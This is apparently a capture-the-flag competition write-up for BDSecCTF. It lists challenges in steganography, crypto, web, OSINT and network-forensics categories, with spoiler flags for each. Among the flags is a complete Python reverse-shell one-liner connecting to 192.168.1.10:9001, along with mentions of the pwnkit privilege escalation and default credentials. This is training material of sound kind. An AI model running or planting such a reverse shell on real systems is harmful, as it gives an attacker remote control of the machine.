

# BDSecCTF - Write Up

## Context
The goal is to solve cybersecurity tests in various categories. The validation of a challenge is done by retrieving a string called flag which confirms the fact that you have passed the associated test and allows you to obtain the associated points.

## Rules
- Time : 24h (07/20/22 17h - 07/21/22 17h (UTC+2) )
- Max Pers per Team : 5
- Submit Limit : 30 per chall

## Results 

|             |                                                                                                            |
| --------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

## Challenges

### Steganography

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
| [Sound's Good ✘](https://github.com/Beel0w/BDSecCTF/tree/main/Steganography/Sound's%20Good)|50|Convert a base 64 to .mp3. Listen and then convert the resulting number from bytes.fromhex to text. |

`Spoiler`
`BDSEC{Y3s_Y0U_GOT_Th3_Fl4G!|}`
|
| Deep Dive Into It !! ✘|250||``|

### PWN

| Chall Name|Points|Goal|Flag|
|----------|:--:|:-:|:-:|
| PwnRace ✔|200||``|

### Reverse

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
| BDSec License Checker 0x1 ✘|50|| 

`Spoiler`
`BDSEC{l1c3n53_ch3ck3r_0x1_2022}`
 |
| shashdot ✘|50|| `` |
| Flag Box ✔|100|| `` |
| Simple Math ✔|100|| `` |
| Poster ✔|100|| `` |
| BDSec License Checker 0x03 ✘|150|| 

`Spoiler`
`BDSEC{iTs_lIcEnsE_cHeCker_tHrEE_bDsEc}`
 |
| BDSec License Checker 0x02 ✘|200||``|

### Cryptography

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|[Crypto Code ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/Cryptocode)|25|Using a python library to decrypt a message|

`Spoiler`
`BDSEC{cryp70_and_pyth0n_ar3_aw3s0me}`
 |
|[VIPx01 ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/VIPx01)|25|Decrypting an encrypted message with Affine Cipher| 

`Spoiler`
`BDSEC{crypt0_ar3_aw3s0m3}`
 |
|VIPx02 ✘|25||

`Spoiler`
`BDSEC{crypt0_ar3_aw3s0m3_&_try_t0_1earn_crypt0}`
 |
|[Fake ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/Fake)|50|Decrypt a message in the form of spam|

`Spoiler`
`BDSEC{do3sn't_b3li3ve_1n_unkn0wn_mail}`
 |
|[Basically RSA ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/Basically%20RSA)|100|Decrypting an encrypted message with RSA|

`Spoiler`
`DSEC{r54_i5_fUn_r16h7?}`
 |
|Dominoes ✘|50||

`Spoiler`
`BDSEC{n0t_50_e45y_hUh?_433}`
 |
|Loop Lover ✘|100||

`Spoiler`
`BDSEC{ju57_L00p_m3_4w4y}`
 |

### Web

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|Jungle Templating ✔|100||

`Spoiler`
`BDSEC{Y3Y_7H1515_7H3_F146}`
 |
|[Awesome Note Keeping ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Web/Awesome%20Note%20Keeping)|100|Understanding how the script works in php to bypass the system| 

`Spoiler`
`BDSEC{tHe_n0t3_K33p1n6_4W350M3_N5}`
 |
|Knight Squad Shop ✔|100|| 

`Spoiler`
`BDSEC{mummy_i_can't_write_javaScript}`
 |

### Programming

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|[Find The Cost ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Programming/Find%20the%20Cost)|100|Create an algorithm to calculate the shortest path from a matrix|

`Spoiler`
`BDSEC{35,47}`
 |

### OSINT

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|[Find The Masterpiece](https://github.com/Beel0w/BDSecCTF/tree/main/OSINT/Find%20The%20Masterpiece) ✔|50|Turn numbers into tone and find the associated music|

`Spoiler`
`BDSEC{he’s_a_pirate,2003}`
 |
|[Find Rejvi ✔](https://github.com/Beel0w/BDSecCTF/tree/main/OSINT/Find%20Rejvi)|70|Find a person’s profile on social media|

`Spoiler`
`BDSEC{yoU_goT_m3__oS1nT_I5_fUn_r1Gh7}`
 |

### Misc

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|[Message of Hufflepuff ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Misc/Message%20of%20Hufflepuff)|50|Find a message from a probability diagram|

`Spoiler`
`BDSEC{Huffm@n_Enc0d1ng_go7_D3COD3D}`
 |
|Find Me Inside ✔|50||

`Spoiler`
`BDSEC{M33m_the_butterfly_goes_up_up_and_away}`
 |

### Networking

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|[Victim & Attacker ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#victim--attacker)|25|Find the ip of the server and the attacker|

`Spoiler`
`BDSEC{192.168.1.13_192.168.1.10}`
 |
|[Which FTP ? ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#which-ftp)|50|Find the ftp version|

`Spoiler`
`BDSEC{vsFTPd_3.0.3}` |
|[FTP Creads ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#ftp-creads)|50|Find the credentials to access the ftp server|

`Spoiler`
`BDSEC{ftpadmin_ftpadmin}`
 |
|[Uploaded File ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#uploaded-file)|50|Find the file uploaded on the server| 

`Spoiler`
`BDSEC{/files/.hacker.not}`
 |
|[Log Filer ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#log-file)|50|Find the name of the log file associated with the ftp server|

`Spoiler`
`BDSEC{vsftpd.log}`
 |
|[Project Incharge ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#project-incharge)|50|Find the name of the person in charge of the project|

`Spoiler`
`BDSEC{Mark}`
 |
|[Loooon Looong ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#loooong-loooong)|50|Find the date of an event in the logs|

`Spoiler`
`BDSEC{Thu_Jul_14_10:16:59}`
 |
|[Administrator ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#administrator)|50|Find the information entered in a login form|

`Spoiler`
`BDSEC{demo,demo}` |
|[Shell ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#shell)|50|Find the executed script to have access to the shell|

`Spoiler`
`BDSEC{python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'}`
 |
|[Secret Key ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#secret-key)|50|Find a secret key in a database| 

`Spoiler`
`BDSEC{2jo3t12nv51w1pw4wk1kj58s1jb6w0}`
 |
|[Database Admin ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#database-admin)|50|Find the credentials to connect to the database as admin|

`Spoiler`
`BDSEC{root_root}`
 |
|[HostName ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#hostname)|50|Find the hostname of the server|

`Spoiler`
`BDSEC{ftpadmin}`
 |
|[CodeName ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#codename)|50|Find the codename of a server|

`Spoiler`
`BDSEC{xenial}`
 |
|[Server Info ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#server-info)|50|Find the Server Bone and the version used|

`Spoiler`
`BDSEC{Ubuntu_16.04.1_LTS_Xenial_Xerus}`
 |
|[Service Exploit ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#service-exploit)|50|Find the service package used|

`Spoiler`
`BDSEC{polkit}`
 |
|[Exploit Exploit Exploit ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#exploit-exploit)|50|Find the name of the exploit used|

`Spoiler`
`BDSEC{pwnkit}`
 |
|[Vulnerable Service ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#vuln%C3%A9rable-service)| 50|Find the name of the vulnerable service|

`Spoiler`
`BDSEC{pkexec}` |
|[msg.txt ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#msgtxt)|50|Find a note|

`Spoiler`
`BDSEC{The_Server_Is_Now_under_My_Control_:D_:D}`
 |
|[Attacker ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#attacker)|50|Find the name of an attacker|

`Spoiler`
`BDSEC{N4N0M473}`
 |
|[Server User's ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#server-users) |50|Find the number of users|

`Spoiler`
`BDSEC{8}`
 |  

**Total : 46 Challenges ( 3220 Points )**
 
Credits : [Beel0w](https://github.com/Beel0w)  
Last Edited on: 28/07/2022
  
